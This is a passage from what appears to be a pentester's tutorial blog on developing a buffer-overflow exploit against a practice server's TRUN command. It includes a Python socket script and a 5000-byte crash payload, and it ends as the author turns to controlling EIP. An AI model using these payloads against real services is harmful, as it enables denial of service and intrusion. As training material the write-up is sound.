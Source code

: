 ```python
    return final_payload


def tcp_socket(ip,port):
    network_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connection_tuple = (ip,port)
    network_socket.connect(connection_tuple)
    return network_socket


if __name__ == "__main__":
    #Pullin Arguments from the command line
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', required=True)
    parser.add_argument('--port', required=True, type=int)
    args = parser.parse_args()
    main(args.host,args.port) 
```

The script pulls the target hostname and port in from the command line using the argparse module. From this it creates a TCP stream socket for communicating with our target service. Next it pulls in the service banner. Once it receives this it sends our exploit code. There are additional checks I could do to neaten up the code e.g check to make sure the service is alive,etc but I don't think its necessary here.

It was here where I ran in to my first stumbling block. During OSCP I did all of my exploit development in Python2 which has been out of dated for quite a while now. Its a bit hypocritical for a professional pentester to use out dated software so I decided to painfully drag my Python3 knowledge up to standard.

---

Side note, Python3 requires data sent over a socket to have an encoding, in Python2 this was kinda optional.

For example the following is valid Python2 code for confirming our exploit

```python
buffer = "A" * 5000
s.send("TRUN /.:/ " + buffer)

```

In the Python3 example below, note the "b" in front of our data

```python
prepend = b"TRUN /.:/"
pattern = b"A"*5000
final_payload = prepend + pattern
```

----

Running our sample script will crash the service confirming that 5000 bytes does the trick. 

No we have confirmed that 5000 bytes breaks the buffer we can move on to controlling the EIP. 
